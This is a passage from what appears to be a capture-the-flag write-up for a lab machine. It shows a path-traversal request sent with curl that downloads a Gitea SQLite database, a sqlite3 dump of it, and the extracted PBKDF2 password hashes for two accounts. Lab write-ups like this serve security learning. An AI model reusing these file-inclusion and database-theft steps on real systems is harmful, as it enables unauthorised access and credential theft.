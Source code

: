 ```bash
42dd801487a3:/# cd /data
42dd801487a3:/data# tree
.
├── git
├── gitea
│   ├── conf
│   │   └── app.ini
│   └── log
└── ssh
    ├── ssh_host_ecdsa_key
<SNIP>
42dd801487a3:/data#
```

We can see a `gitea` folder inside the `/data` directory, which includes an `app.ini` configuration file inside `conf`. Checking the file's contents, we can see that the there's supposed to be a SQLite database on `/data/gitea/gitea.db`:

```bash
42dd801487a3:/data/gitea/conf# cat app.ini
<SNIP>
[database]          
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3      
HOST    = localhost:3306
<SNIP>
42dd801487a3:/data/gitea/conf#
```

### Database Extraction

We abuse the **File Inclusion** vulnerability on the target system and gain access to the SQLite database:

![image.png](image%2011.png)

We use curl to pull the database down and save it on our attack host:

```bash
curl "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" \
--output gitea.db
```

We can then use the `sqlite3` command to dump the database and review its contents:

```bash
sqlite3 gitea.db .dump
```

After reviewing the database dump, we discover two PBKDF2 hashes stored in Gitea format:

```sql
INSERT INTO user VALUES(1,'administrator','administrator','','root@titanic.htb',0,'enabled','cba20ccf927d3ad0567b68161732d3fbc
a098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136','pbkdf2$50000$50',0,0,0,'',0,'','','70a5bd0c1a5d23caa4903
0172cdcabdc','2d149e5fbd1b20cf31db3e3c6a28fc9b','en-US','',1722595379,1722597477,1722597477,0,-1,1,1,0,0,0,1,0,'2e1e70639ac6b0
eecbdab4a3d19e0f44','root@titanic.htb',0,0,0,0,0,0,0,0,0,'','gitea-auto',0);

INSERT INTO user VALUES(2,'developer','developer','','developer@titanic.htb',0,'enabled','e531d398946137baea70ed6a680a54385ecf
f131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56','pbkdf2$50000$50',0,0,0,'',0,'','','0ce6f07fc9b557bc070fa7be
f76a0d15','8bf3e3452b78544f8bee9400d6936d34','en-US','',1722595646,1722603397,1722603397,0,-1,1,0,0,0,0,1,0,'e2d95b7e207e432f6
2f3508be406c11b','developer@titanic.htb',0,0,0,0,2,0,0,0,0,'','gitea-auto',0);
```
